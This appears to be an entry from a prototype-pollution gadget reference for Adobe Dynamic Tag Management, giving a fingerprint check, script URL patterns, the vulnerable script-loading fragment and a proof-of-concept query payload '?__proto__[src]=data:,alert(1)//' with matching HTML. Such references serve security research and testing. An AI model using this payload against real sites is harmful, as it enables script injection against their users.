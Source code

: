 ## Adobe Dynamic Tag Management

URL: https://docs.adobe.com/content/help/en/dtm/using/c-overview.html

### JS Fingerprint
```
return (typeof _satellite !== 'undefined')
```

### Vulnerable code fragment
```
https://assets.adobedtm.com/[a-f0-9]+/[a-f0-9]+/launch-[a-f0-9]+.min.js
https://assets.adobedtm.com/launch-EN[a-f0-9]+.min.js
```

```js
a.prototype._writeScriptToken = function f(e, n) {
    var t = this._buildScript(e)
    , a = this._shouldRelease(t)
    , i = this.options.afterAsync;
    e.src && (t.src = e.src,
```

### PoC

```
?__proto__[src]=data:,alert(1)//
```

```html
<script>
  Object.prototype.src='data:,alert(1)//'
</script>
<script src="https://assets.adobedtm.com/launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js" async></script>
```